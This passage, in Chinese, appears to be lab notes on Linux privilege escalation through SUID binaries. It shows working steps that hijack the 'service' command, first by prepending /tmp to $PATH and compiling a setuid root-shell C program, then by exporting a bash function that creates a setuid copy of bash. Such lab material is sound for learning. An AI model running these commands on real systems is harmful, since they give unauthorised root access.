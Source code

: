 ```
留意```service apache2 start```，执行了一个service命令，我们可以通过修改$PATH的方式劫持这个service命令

### 3.把/tmp/添加到$PATH
> export PATH=/tmp:$PATH

### 4.创建一个同名的c文件
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

### 5.编译到新建的$PATH下
>  gcc /tmp/service.c -o /tmp/service

### 6.执行SUID,提权到root
>  /usr/local/bin/suid-env

# 12. SUID (Environment Variables #2)

我的理解这也是一种命令劫持

## 如何利用？

Exploitation Method #1

### 1.查找所有SUID
> find / -type f -perm -04000 -ls 2>/dev/null

```
TCM@debian:/tmp$ find / -type f -perm -04000 -ls 2>/dev/null
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
```

### 2.strings命令查看suid-env2
```
TCM@debian:/tmp$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start

```

留意```/usr/sbin/service apache2 start```这条shell，使用了```/usr/sbin/service```命令，注意这里是带路径的

### 3. 重新定义同名的函数,把提权的shell写在函数里面
> function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

### 4. 设置```/usr/sbin/service```为仅使用函数名称
> export -f /usr/sbin/service

man export对于 -f的解释是：```Use function names only.```

### 5. 执行SUID,提权到root
> /usr/local/bin/suid-env2
```